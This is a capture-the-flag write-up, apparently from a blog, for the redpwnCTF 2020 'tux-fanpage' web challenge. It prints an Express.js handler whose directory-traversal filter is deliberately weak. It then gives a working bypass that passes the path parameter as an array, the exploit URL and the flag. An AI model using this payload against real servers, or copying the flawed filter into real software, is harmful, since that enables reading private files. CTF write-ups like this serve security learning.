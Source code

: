 ```yaml
---
layout: post
title: "tux-fanpage"
author: "shreyas-sriram"
---
```


My friend made a fanpage for Tux; can you steal the source code for me?

Site: `tux-fanpage.2020.redpwnc.tf`

## Files
* [index.js]({{site.baseurl}}/assets/tux-fanpage/index.js)

# Solution

* The source code `index.js` sanitizes the query parameter as seen here

```
app.get('/page', (req, res) => {

    let path = req.query.path

    //Handle queryless request
    if(!path || !strip(path)){
        res.redirect('/page?path=index.html')
        return
    }

    path = strip(path)

    path = preventTraversal(path)

    res.sendFile(prepare(path), (err) => {
        if(err){
            if (! res.headersSent) {
                try {
                    res.send(strip(req.query.path) + ' not found')
                } catch {
                    res.end()
                }
            }
        }
    })
})

//Prevent directory traversal attack
function preventTraversal(dir){
    if(dir.includes('../')){
        let res = dir.replace('../', '')
        return preventTraversal(res)
    }

    //In case people want to test locally on windows
    if(dir.includes('..\\')){
        let res = dir.replace('..\\', '')
        return preventTraversal(res)
    }
    return dir
}

//Get absolute path from relative path
function prepare(dir){
    return path.resolve('./public/' + dir)
}

//Strip leading characters
function strip(dir){
    const regex = /^[a-z0-9]$/im

    //Remove first character if not alphanumeric
    if(!regex.test(dir[0])){
        if(dir.length > 0){
            return strip(dir.slice(1))
        }
        return ''
    }

    return dir
}
```

* From the source code, it can be figured out that `./public/` is prepended to the query parameter
* Using the source code and elements in the page, it can be concluded that the required source code file `index.js` is in the same level as that of `/public`
* Payloads like `?path=../index.js` are being sanitized
* But notice that th sanitization code involves methods that are common to **strings** and **arrays**
* To bypass the filtering, an **array** need to be passed in the query parameters<br/>
`?path=a&path=/../../index.js`
* The first index has to be of `length = 1` to bypass the filter
* This is parsed as `path[] = [a,/../../index.js]`
* The URL to retrieve the source code will be<br/>
`https://tux-fanpage.2020.redpwnc.tf/page?path=a&path=/../../index.js`
* Find the flag in the source code<br/>
`flag{tr4v3rsal_Tim3}`